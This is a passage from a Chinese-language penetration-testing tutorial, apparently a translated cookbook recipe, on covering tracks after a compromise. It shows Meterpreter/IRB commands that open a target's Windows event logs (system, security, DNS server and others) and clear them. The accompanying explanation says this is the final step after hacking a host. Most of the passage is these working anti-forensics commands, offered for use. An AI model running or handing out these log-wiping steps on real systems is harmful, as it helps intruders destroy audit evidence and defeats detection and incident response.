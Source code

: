 4.  出于我们的目的，我们把它们都清理掉。你需要将这些一次键入：

    ```
    log = client.sys.eventlog.open('system') 
    log = client.sys.eventlog.open('security') 
    log = client.sys.eventlog.open('application') 
    log = client.sys.eventlog.open('directory service') 
    log = client.sys.eventlog.open('dns server') 
    log = client.sys.eventlog.open('file replication service')
    ```
    
5.  现在我们执行命令来清理日志文件：

    ```
    Log.clear 
    ```
    
6.  这就结束了。我们只用了这么少的命令就能清理我们的踪迹。

### 工作原理

这个秘籍中，我们使用 Meterpreter  来清理我们在目标主机上的踪迹。我们从 Meterpreter 中开始这个秘籍，并启动了 IRB（一个 Ruby 解释器 shell）。下面，我们指定了想要清理的文件，并且最后键入了`Log.clear `命令来清理日志。要记住，一旦我们黑进了某个主机，你需要在最后执行这一步。你不能在清理踪迹之后再执行更多的操作，这样只会更加更多的日志条目。

